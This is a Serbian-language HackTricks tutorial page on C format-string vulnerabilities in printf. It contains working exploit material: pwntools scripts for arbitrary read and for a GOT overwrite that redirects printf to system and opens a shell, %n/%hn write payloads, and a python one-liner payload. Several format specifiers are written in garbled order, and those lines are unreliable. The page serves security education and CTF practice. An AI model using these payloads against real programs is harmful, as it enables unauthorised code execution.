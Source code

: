 # Format Strings

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **kompaniji za kibernetičku bezbednost**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks**? ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitteru** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova** [**hacktricks repozitorijumu**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repozitorijumu**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Osnovne informacije

U programskom jeziku C **`printf`** je funkcija koja se može koristiti za **ispisivanje** nekog stringa. **Prvi parametar** koji ova funkcija očekuje je **sirovi tekst sa formatima**. **Sledeći parametri** koji se očekuju su **vrednosti** koje će **zameniti** **formatere** iz sirovog teksta.

Ranjivost se pojavljuje kada **tekst napadača bude korišćen kao prvi argument** ovoj funkciji. Napadač će moći da kreira **specijalan unos zloupotrebom** mogućnosti **formatiranja stringova printf funkcije** kako bi pročitao i **upisao bilo koje podatke na bilo koju adresu (čitljivo/upisivo)**. Na taj način moći će da **izvrši proizvoljan kod**.

#### Formatteri:

```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```

**Primeri:**

* Ranjiv primer:

```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```

* Normalna upotreba:

```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```

* Sa nedostajućim argumentima:

```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```

### **Pristupanje pokazivačima**

Format **`%<n>$x`**, gde je `n` broj, omogućava da se printf-u pokaže da izabere n-ti parametar (sa steka). Dakle, ako želite da pročitate 4. parametar sa steka koristeći printf, možete uraditi:

```c
printf("%x %x %x %x")
```

i trebalo bi da čitate od prvog do četvrtog parametra.

Ili možete uraditi:

```c
printf("$4%x")
```

i pročitajte direktno četvrti.

Primetite da napadač kontroliše parametar `pr`**`intf`**, što u osnovi znači da\*\* njegov unos će biti na steku kada se pozove `printf`, što znači da bi mogao da upiše određene memorijske adrese na stek.

{% hint style="danger" %}
Napadač koji kontroliše ovaj unos, moći će **dodati proizvoljnu adresu na stek i naterati `printf` da im pristupi**. U sledećem odeljku će biti objašnjeno kako iskoristiti ovu funkcionalnost.
{% endhint %}

## **Proizvoljno čitanje**

Moguće je koristiti format **`$n%s`** da bi **`printf`** dobio **adresu** smeštenu na **n poziciji**, sledeći je i **odštampao kao da je string** (štampa do pronalaska 0x00). Dakle, ako je osnovna adresa binarnog fajla **`0x8048000`**, i znamo da korisnički unos počinje na 4. poziciji na steku, moguće je odštampati početak binarnog fajla sa:

```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```

{% hint style="danger" %}
Imajte na umu da ne možete staviti adresu 0x8048000 na početak unosa jer će string biti završen sa 0x00 na kraju te adrese.
{% endhint %}

## **Proizvoljno pisanje**

Formatter **`$<num>%n`** **piše** **broj napisanih bajtova** na **označenu adresu** u parametru \<num> na steku. Ako napadač može da napiše toliko znakova koliko želi sa printf, moći će da natera **`$<num>%n`** da napiše proizvoljan broj na proizvoljnu adresu.

Srećom, da bi se napisao broj 9999, nije potrebno dodati 9999 "A" u unos, već je moguće koristiti formatter **`%.<num-write>%<num>$n`** da se napiše broj **`<num-write>`** na **adresu na koju pokazuje pozicija `num`**.

```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```

Međutim, važno je napomenuti da se obično koristi `$hn` umesto `$n` kako bi se napisala adresa poput `0x08049724` (što je OGROMAN broj za napisati odjednom). Ovo omogućava da se napišu samo 2 bajta. Stoga se ova operacija obavlja dva puta, jednom za najviša 2B adrese, a drugi put za najniže.

Ova ranjivost omogućava pisanje bilo čega na bilo koju adresu (proizvoljno pisanje).

U ovom primeru, cilj je da se prepiše adresa funkcije u GOT tabeli koja će biti pozvana kasnije. Iako ovo može zloupotrebiti druge tehnike proizvoljnog pisanja za izvršenje:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Prepisivaćemo funkciju koja prima argumente od korisnika i usmerićemo je ka funkciji `system`. Kao što je pomenuto, obično su potrebna 2 koraka za pisanje adrese: Prvo se pišu 2 bajta adrese, a zatim druga 2. Za to se koristi `$hn`.

* HOB se odnosi na 2 viša bajta adrese
* LOB se odnosi na 2 niža bajta adrese

Zatim, zbog toga kako formatiranje stringa funkcioniše, morate prvo napisati manji od \[HOB, LOB] pa onda drugi.

Ako je HOB < LOB\
`[adresa+2][adresa]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Ako je HOB > LOB\
`[adresa+2][adresa]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Šablon

Možete pronaći šablon za pripremu eksploata za ovu vrstu ranjivosti u:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ili ovaj osnovni primer sa [**ovde**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```

## Ostali Primeri i Reference

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, bez relro-a, bez canary-ja, nx, bez pie-a, osnovna upotreba format stringova za otkrivanje zastave sa steka (nema potrebe za menjanjem toka izvršavanja)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, bez canary-ja, nx, bez pie-a, format string za prepisivanje adrese `fflush` sa funkcijom win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, bez canary-ja, nx, bez pie-a, format string za pisanje adrese unutar main-a u `.fini_array` (tako da tok ponovo prolazi 1 više puta) i pisanje adrese `system` u GOT tabelu koja pokazuje na `strlen`. Kada tok ponovo dođe do main-a, `strlen` se izvršava sa korisničkim unosom i pokazujući na `system`, izvršiće prosleđene komande.
